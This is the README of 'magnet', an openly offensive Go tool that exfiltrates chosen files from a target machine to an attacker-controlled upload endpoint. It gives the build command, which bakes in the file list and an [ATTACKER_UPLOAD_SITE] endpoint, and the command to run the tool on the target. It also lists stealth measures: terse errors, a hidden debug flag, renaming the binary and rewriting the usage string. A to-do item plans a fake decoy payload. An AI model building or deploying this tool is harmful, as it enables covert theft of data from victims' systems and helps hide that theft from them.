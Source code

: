 <div align=center>
  <h1>magnet</h1>
  <pre>🧲⚡
  <strong>Grab interesting files from remote</strong><br>
  All the job is done at compilation time</pre>
</div>



## Usage

**At compilation time** you need to specify:
* ***The remote endpoint***, where juicy files are uploaded
* ***The Juicy files***, list of files you want to grab. (File are separated by a comma `,`)
* ***The target os***, to fit the target (between: `windows`, `darwin`, `linux`

So the compilation line looks like this:
```shell
export FILES=$(cat samples/linux_juicy_files.txt)
export ENDPOINT=http://[ATTACKER_UPLOAD_SITE]
GOOS=linux GOARCH=amd64 go build -ldflags "-X 'main.FileList=$FILES' -X 'main.Endpoint=$ENDPOINT'" magnet.go
```

Then on target machine:
```shell
./magnet #or magnet.exe
```

### Notes

* For the remote endpoint , I suggest you to use the `/push` endpoint of a [`gitar`](https://github.com/ariary/gitar) listener
* The software is built to be stealthy hence:
  * error handling is not verbose (hidden flag to get more verbosity `-thisisdebug`)
  * I suggest to overwrite usage string in `magnet.go` to fit your attack scenario
  * rename `magnet` executable

## To do

* Include a fake payload that will also be run to fake an attacking scenario (example update, etc)
* Handle directories
